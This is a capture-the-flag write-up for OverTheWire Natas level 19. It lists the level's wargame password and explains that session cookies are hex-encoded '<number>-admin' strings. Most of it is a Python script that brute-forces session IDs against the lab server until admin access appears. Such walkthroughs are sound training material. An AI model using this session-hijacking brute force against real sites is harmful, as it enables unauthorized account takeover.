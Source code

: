 # Username
natas19
# Password
tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr
# Web vulnerability
Insecure session management
# Method of solve
It looks like this app is still using the same method of assigning session IDs to be used as cookies, but a dash and the name of the user is appended, so a random "admin" login might look like:
```
101-admin
```
The cookie is then encoded from ASCII to hexadecimal, so the resulting cookie is a hex string. So what we need to do I run the same script as the last level, but after generating the number in the range, prepend it to "-admin" and then convert it to hexadecimal before sending each request. This script should do the job
```
import requests

url = "http://natas19.natas.labs.overthewire.org/index.php"
auth = ("natas19", "tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr")  # Replace with target creds

for session_id in range(1, 641):
    formatted_session_id = str(session_id) + '-admin'
    encoded_session_id = formatted_session_id.encode('utf-8').hex() 
    print(f"Current cookie: {encoded_session_id}")
    cookies = {"PHPSESSID": str(encoded_session_id)}
    response = requests.get(url, auth=auth, cookies=cookies)
    
    if "You are an admin" in response.text:
        print(f"Admin session found! PHPSESSID={session_id}")
        print(response.text)
        break
```
